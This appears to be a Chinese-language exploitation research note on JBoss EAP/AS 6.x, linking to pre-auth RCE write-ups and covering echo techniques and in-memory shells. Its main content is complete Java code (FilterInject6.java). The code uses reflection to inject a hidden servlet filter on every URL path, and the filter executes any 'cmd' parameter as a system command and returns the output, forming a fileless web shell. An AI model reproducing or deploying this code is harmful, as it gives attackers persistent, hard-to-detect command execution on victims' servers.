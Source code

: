 相关漏洞
---

### JBoss EAP/AS <= 6.* Pre-Auth RCE

- https://jspin.re/jboss-eap-as-6-rce-a-little-bit-beyond-xac-xed/
- https://github.com/jespinhara/j-is-the-boss

测试效果：

![image](https://user-images.githubusercontent.com/55024146/165736580-d0d13aae-84a5-4812-8e51-267ab0a78949.png)


利用研究
---

### 回显

- https://www.jianshu.com/p/d142294a9466

### 内存马

#### 意外发现-内嵌Tomcat

![image-20211230142240042](img/image-20211230142240042.png)



![image-20211230142344888](img/image-20211230142344888.png)



都是熟悉的面孔

![image-20211230142523946](img/image-20211230142523946.png)



#### Filter

测试版本：JBoss AS v6.1.0.Final

FilterInject6.java

```java
import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.deploy.FilterDef;
import org.apache.catalina.deploy.FilterMap;
import javax.servlet.*;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.Map;

public class FilterInject6 extends HttpServlet {
    static public class myfilter implements Filter {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {
        }
        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            String cmd;
            if ((cmd = servletRequest.getParameter("cmd")) != null) {
                Process process = Runtime.getRuntime().exec(cmd);
                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                        new java.io.InputStreamReader(process.getInputStream())
                );
                StringBuilder stringBuilder = new StringBuilder();
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    stringBuilder.append(line + '\n');
                }
                servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
                servletResponse.getOutputStream().flush();
                servletResponse.getOutputStream().close();
                return;
            }
            filterChain.doFilter(servletRequest, servletResponse);
        }
        @Override
        public void destroy() {

        }

    }

    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        try {
            final String name = "filterDemo";
            ServletContext servletContext = req.getSession().getServletContext();
            Field appctx = servletContext.getClass().getDeclaredField("context");
            appctx.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
            Field stdctx = applicationContext.getClass().getDeclaredField("context");
            stdctx.setAccessible(true);
            StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
            Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
            Configs.setAccessible(true);
            Map filterConfigs = (Map) Configs.get(standardContext);
            Filter evilFilter = new myfilter();
            FilterDef filterDef = new FilterDef();
            filterDef.setFilterName(name);
            filterDef.setFilterClass(evilFilter.getClass().getName());
            standardContext.addFilterDef(filterDef);
            FilterMap filterMap = new FilterMap();
            filterMap.addURLPattern("/*");
            filterMap.setFilterName(name);
            filterMap.setDispatcher(DispatcherType.REQUEST.name());
            standardContext.addFilterMapBefore(filterMap);
            Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
            constructor.setAccessible(true);
            ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);
            filterConfigs.put(name, filterConfig);
            resp.getWriter().write("inject success");
        } catch (NoSuchFieldException | NoSuchMethodException | IllegalAccessException | InstantiationException | InvocationTargetException e) {
            e.printStackTrace();
        }
    }
}
```



![image-20211230142904408](img/image-20211230142904408.png)
